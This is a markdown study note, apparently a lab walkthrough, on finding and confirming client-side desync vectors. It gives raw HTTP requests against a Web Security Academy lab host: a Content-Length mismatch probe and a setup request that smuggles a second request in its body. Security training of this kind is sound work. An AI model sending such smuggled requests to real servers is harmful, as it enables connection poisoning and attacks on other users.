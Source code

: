 The first step in testing for client-side desync vulnerabilities is to identify or craft a request that causes the server to ignore the `Content-Length` header.
As with [CL.0 smuggling vulnerabilities](CL.0%20smuggling%20vulnerabilities.md), the most likely candidates are endpoints that aren't expecting POST requests (static files, server-level redirects, etc.).

*Redirect response*
```http
GET / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq

---

HTTP/1.1 302 Found
Location: /en
```

Send a request with a `Content-Length` longer than the actual body and observe:
- If the request just hangs or times out, this suggests that the server is waiting for the remaining bytes promised by the headers.
- If you get an immediate response, you've **potentially found a CSD vector**.

*Immediate response from the server, so potentially CSD:*
```http
POST / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq
Content-Length: 1000
Content-Type: application/x-www-form-urlencoded

---

HTTP/1.1 302 Found
Location: /en
```

### Confirming the desync vector

Some secure servers respond without waiting for the body but still parse it correctly when it arrives, others don't handle the `Content-Length` correctly but close the connection immediately after responding, making them unexploitable.

Try sending two requests down the same connection to see if you can use the body of the first request to affect the response to the second one, just like in [CL.0 smuggling vulnerabilities](CL.0%20smuggling%20vulnerabilities.md).

*Setup request*
```http
POST / HTTP/1.1
Host: 0ae9004d04f8d418853d94dc00040000.h1-web-security-academy.net
Cookie: session=7hU4rhvzi2hOj62r5Q4AewufEbjiCC0f; _lab_analytics=n41lqMeF9Sxi8sjLkaw3X6HP2Zbt5vhkPSFJPIwyGuxHPy33HHQEK9p4FBIJKOPVB72rFbnMyqrldP3xlepovUgOMLNfZI8JVazYoYri6eaFEBm8TWLQieOMihQ1vVee51Y629efffjnIkXiraplZCJlIXidBk25eM1AYQtMymFZeHe6f8g6nveXTprtUpNXqKIXkUwaBnC8lL3jdQPX14XfMbSHs12iSgicyvf2nFdv1C0dvainVKq6LoVbcimq
Content-Length: 34
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded

GET /hopefully404 HTTP/1.1
Foo: x
```